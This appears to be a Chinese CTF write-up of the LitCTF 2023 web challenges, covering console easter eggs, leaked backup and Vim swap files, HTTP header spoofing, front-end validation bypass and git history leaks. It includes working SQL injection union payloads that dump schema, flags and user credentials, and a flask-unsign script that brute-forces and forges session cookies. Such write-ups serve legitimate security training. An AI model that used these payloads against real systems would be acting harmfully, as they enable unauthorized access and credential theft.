## Web

### 01. 我Flag呢？

F12查看源代码



在Console页面有彩蛋输出

```
欸~什么！你看到我了么！
    
    恭喜你发现了彩蛋哦~
    ______  __             _  _______   _______  _            _  __ ____          _ 
   |  ____|/_ |           | ||__   __| |__   __|| |          | |/ /|___ \        | |
   | |__    | | _ __  ___ | |_  | |  ___  | |   | |__    ___ | ' /   __) | _   _ | |
   |  __|   | || '__|/ __|| __| | | / _ \ | |   | '_ \  / _ \|  <   |__ < | | | || |
   | |      | || |   \__ \| |_  | || (_) || |   | | | ||  __/| . \  ___) || |_| ||_|
   |_|      |_||_|   |___/ \__| |_| \___/ |_|   |_| |_| \___||_|\_\|____/  \__, |(_)
                                                                            __/ |   
                                                                           |___/    
    try to run giveMeEgg() to get the egg!good luck~ 
    wink wink~
```

```javascript
> giveMeEgg()
	LitCTF{First_t0_The_k3y! (1/?) 
	多留意一下哦~ 说不定就找到下一个了呢~  
```

### 02. 导弹迷踪

```
你是一颗导弹，你需要，飞到最后！（通过6道关卡就能拿到flag哦~
```

根据题目描述可知，需要达到第6道关卡

全局搜索level(通过页面左上角可知)


或者hook





### 03. Follow me and hack me



```
他说备份文件还有好吃的！
```

这里还有个彩蛋`/www.zip`

```php
......
<?php
        // 第三个彩蛋！(看过头号玩家么？)
        // _R3ady_Pl4yer_000ne_ (3/?)
    ?>
```

### 04. PHP是世界上最好的语言！！

右边可以直接执行php代码



### 05. Vim yyds

```
当vim在编辑文档的过程中如果异常退出，则会产生缓存文件。
    第一次产生的缓存文件后缀为.swp
    第二次则产生的缓存文件后缀为.swo
    第三次产生的缓存文件后缀为.swn
使用命令vim -r 可以查看当前目录下的所有swp文件。
使用命令vim -r filename可以恢复文件，这样上次意外退出并且没有保存的修改，就可以覆盖文件。
调用这类的隐藏文件的时候，需要在最前面加.(如删除index.php.swp，则需要rm -fr* .index.php.swp).
```

访问`/.index.php.swp`,下载缓存文件

```
vim -r index.php
```

核心代码如下

```php
 <?php
            error_reporting(0);
            $password = "Give_Me_Your_Flag";
            echo "<p>can can need Vim </p>";
            if ($_POST['password'] === base64_encode($password)) {
                echo "<p>Oh You got my password!</p>";
                eval(system($_POST['cmd']));
            }
            ?>
```

```
$ echo -n "Give_Me_Your_Flag" | base64
R2l2ZV9NZV9Zb3VyX0ZsYWc=
```



### 06. 作业管理系统



源代码提示账号密码 admin/admin

进入后台直接`创建文件`







这题有个彩蛋就是



访问上图链接



```
wow 你找到了第二个彩蛋哦~
_S0_ne3t? (2/?)
```

### 07. 这是什么？SQL ！注一下 ！

 题目给了源代码

```php
$sql = "SELECT username,password FROM users WHERE id = ".'(((((('.$_GET["id"].'))))))';

$result = $conn->query($sql);
```

以及Executed Operations

```
Executed Operations:
SELECT username,password FROM users WHERE id = (((((())))))
```

直接闭合



使用DIOS

```mysql
-1)))))) union select (select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and (@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a),2#
```



```mysql
-1)))))) union select (select flag from ctftraining.flag),2#
```



彩蛋egg~

```mysql
-1)))))) union select (select group_concat(concat_ws('-',id,username,password)) from users),2#
```

```
F1rst_to_Th3_eggggggggg!} (4/4)
```


### 08. Http pro max plus

考点为HTTP Request Header

1.只允许本地访问

```
Client-ip: 127.0.0.1
```

2.You are not from pornhub.com !

```
Referer: pornhub.com
```

3.用Chrome浏览器啊!

```
User-Agent: Chrome
```

4.代理服务器地址是Clash.win

```
via: Clash.win
```

```bash
GET / HTTP/1.1
Host: node6.anna.nssctf.cn:28927
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Chrome
Referer: pornhub.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Client-ip: 127.0.0.1
via: Clash.win
Connection: close


```


访问`/wtfwtfwtfwtf.php`

查看源代码

```
<!--你就冲吧，什么都冲只会害了你自己 bdy好康的在 /sejishikong.php-->
```

访问`sejishikong.php`得到flag

> 更多参考 https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers

### 09. Ping



仅前端校验，hook一下



当然抓包修改也可以



### 10. 1zjs

`package.json`文件得到源代码仓库





题目可能修改`index.umd.js`

compare一下





### 11. 就当无事发生

```
https://ProbiusOfficial.github.io
差点数据没脱敏就发出去了，还好还没来得及部署，重新再pull一次（x
```

github搜索ProbiusOfficial.github.io博客项目





### 12. Flag点击就送！

flask session伪造

```
$cat pass.txt
LitCTF2023
LitCTF
```

```
$ flask-unsign --unsign --cookie "eyJuYW1lIjoiMSJ9.ZF_Bhw.mawKGPKlVL8_XkcZE2bcVHe6pOE" -w .\pass.txt --no-literal-eval
[*] Session decodes to: {'name': '1'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 2 attempts
b'LitCTF'
```

```python
import requests
import string
import subprocess

SECRET_KEY = "LitCTF"

cmd_out = subprocess.check_output(['flask-unsign', '--sign', '--cookie', '{\'name\': \'admin\'}', '--secret', SECRET_KEY])

cookie = {'session' : cmd_out.decode().rstrip()}
response = requests.get('http://node5.anna.nssctf.cn:28403/flag', cookies=cookie)

print(response.text)
```

